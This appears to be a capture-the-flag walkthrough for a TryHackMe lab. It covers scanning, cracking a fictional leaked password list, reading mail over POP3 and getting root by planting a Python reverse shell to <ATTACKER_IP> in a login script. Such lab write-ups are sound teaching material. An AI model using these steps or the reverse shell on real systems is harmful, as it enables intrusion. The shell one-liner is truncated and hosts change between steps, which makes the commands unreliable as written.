 # PownSniff CTF Walkthrough
<br/>

## Intro
Welcome to the PownSniff challenge, here is the link to the [room](https://tryhackme.com/room/ctf) on TryHackMe.

This challenge is about leaked credentials, password cracking an reverse shells...

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP pownsniff.thm" | sudo tee -a /etc/hosts
```

nmap scan:
```bash
nmap -sV -sC 10.10.144.58 
```

We get 4 open ports:
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA AUTH-RESP-CODE SASL(PLAIN) TOP PIPELINING USER RESP-CODES UIDL
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: Pre-login have more LITERAL+ listed LOGIN-REFERRALS post-login capabilities OK IMAP4rev1 ENABLE IDLE AUTH=PLAINA0001 SASL-IR ID
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit their website `http://pownsniff.thm`.
Here we can find the org name: Fowsniff' and read that the company just had a data breach, let's serach online for leaked data.

Googling we can find this GitHub page https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt, containing:
```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
REDACTED-FOR-THE-WRITEUP
 
B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

--- THIS IS NOT A REAL PASSWORD LEAK ---
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

Here we can see a series of usernames and password hashed.
Let's see which hash fromat it is:
```bash
nth --text "REDACTED"
```

So we have a bunch of MD5 hashes, put them in a file and crack them, you can use *crackstation* online as md5 hashes are easy.

Now let's login to the POP3 server as seina:
```bash
telnet 10.10.113.150 110
```
```
USER seina
PASS scoobydoo2
```

Now list messages:
```
LIST
```

Get the first message:
```
RETR 1
```

The mail, sent by the user "baksteen" talks about a security incident and there is a new password inside:
```
The temporary password for SSH is "REDACTED"
```

Now we can login with SSH:
```bash
ssh baksteen@pownsniff.thm
```

Let's check the groups in which the user is in:
```bash
groups baksteen
```

He is part of the `users` group.

Now we need a file that is writable and that can be run by that group, the hint tells us is called `cube.sh`:
```bash
find / -name cube.sh
```

The file is located here: `/opt/cube/cube.sh`, let's edit it:
```bash
nano /opt/cube/cube.sh
```

Now we want a listener ready on our machine:
```bash
nc -lvnp 1234
```

Copy this code for a reverse-shell on that file:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<ATTACKER_IP>,1234));os.dup2(s.fileno(),0);
```

This file contains the ASCII art tht we have seen when we logged in via SSH, this means that it  is probaly called upon SSH login

Now log out and login back to SSH, you should get a reverse shell as root!

<br/>
<br/>

## Conclusion
Congratulations you have successfully found the leaked password, craked the hashes and gained access to the target.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
